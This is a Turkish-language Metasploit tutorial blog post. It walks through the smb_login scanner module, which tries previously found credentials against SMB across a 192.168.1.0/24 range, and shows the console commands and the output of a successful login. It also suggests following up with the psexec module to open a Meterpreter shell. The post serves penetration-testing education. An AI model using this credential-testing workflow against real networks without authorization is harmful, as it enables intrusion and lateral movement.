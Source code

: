 ```yaml
---
draft: false

title:  'MSF İçinde SMB Login Kontrolü'
date: '2017-05-18T13:02:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Yaptığınız taramalarda, bir şekilde kullanıcı adı ve parola bulduğunuzu düşünüyorsunuz. Bu kullanıcı adı ve parolanın başka hangi servislerde kullanıldığını denemek isteyebilirsiniz. Bu noktada denenebilecek en mantıklı servis\_SMB\_olarak adlandırılan ağ üzerinde dosya paylaşım servisidir." 
 
url:  /tr/msf-icinde-smb-login-kontrolu/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Önceki yazılarımızda “Bilgi Toplama” modüllerinden bir kısmını gördük. IP ve Port tarama ile birlikte servislerin bulunmadı konularını ele aldık. Bir sonraki aşama “Zafiyet Taraması” olarak adlandırılır. Pentest aşamalarından “Bilgi Toplama” işlemleri ne kadar iyi ve sağlıklı yapılırsa, sonraki aşamalarda verim elde etmeniz de o kadar mümkün olacaktır.



Yaptığınız taramalarda, bir şekilde kullanıcı adı ve parola bulduğunuzu düşünüyorsunuz. Bu kullanıcı adı ve parolanın başka hangi servislerde kullanıldığını denemek isteyebilirsiniz. Bu noktada denenebilecek en mantıklı servis `SMB` olarak adlandırılan ağ üzerinde dosya paylaşım servisidir.



Aşağıdaki örnekte, `smb_login` modülü kullanılmakta ve önceden bulunan bir kullanıcı adı ve parola denenmektedir. Bu tarama türünde, hedef bilgisayar Windows ise dikkatli olmalısınız çünkü başarısız her deneme, sistem yöneticisine ikaz olarak iletilir. `smb_login` taramanın çok gürültü çıkarttığını bilmelisiniz.



Yaptığınız `smb_login` taramasında başarılı bir oturum açma gerçekleşirse, devamında `windows/smb/psexec` modülünü kullanarak `Meterpreter` shell açma denenebilir.


```bash
msf **&gt;** use auxiliary/scanner/smb/smb_login
msf auxiliary**(**smb_login**)** **&gt;** show options

Module options **(**auxiliary/scanner/smb/smb_login**)**:

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   true             no        Try blank passwords **for **all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   PASS_FILE                          no        File containing passwords, one per line
   PRESERVE_DOMAINS  true             no        Respect a username that contains a domain name.
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             445              yes       Set the SMB service port
   SMBDomain         WORKGROUP        no        SMB Domain
   SMBPass                            no        SMB Password
   SMBUser                            no        SMB Username
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works **for **a host
   THREADS           1                yes       The number of concurrent threads
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      true             no        Try the username as the password **for **all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output **for **all attempts

msf auxiliary**(**smb_login**)** **&gt;** set RHOSTS 192.168.1.0/24
RHOSTS **=&gt;** 192.168.1.0/24
msf auxiliary**(**smb_login**)** **&gt;** set SMBUser victim
SMBUser **=&gt;** victim
msf auxiliary**(**smb_login**)** **&gt;** set SMBPass s3cr3t
SMBPass **=&gt;** s3cr3t
msf auxiliary**(**smb_login**)** **&gt;** set THREADS 50
THREADS **=&gt;** 50
msf auxiliary**(**smb_login**)** **&gt;** run

**[*********]** 192.168.1.100 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
**[*********]** 192.168.1.111 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
**[*********]** 192.168.1.114 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
**[*********]** 192.168.1.125 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
**[*********]** 192.168.1.116 - SUCCESSFUL LOGIN **(**Unix**)**
**[*********]** Auxiliary module execution completed

msf auxiliary**(**smb_login**)** **&gt;**
```



Örnek çıktıda görüldüğü gibi, `192.168.1.116` IP adresinde başarılı bir oturum açma işlemi gerçekleşmiştir.
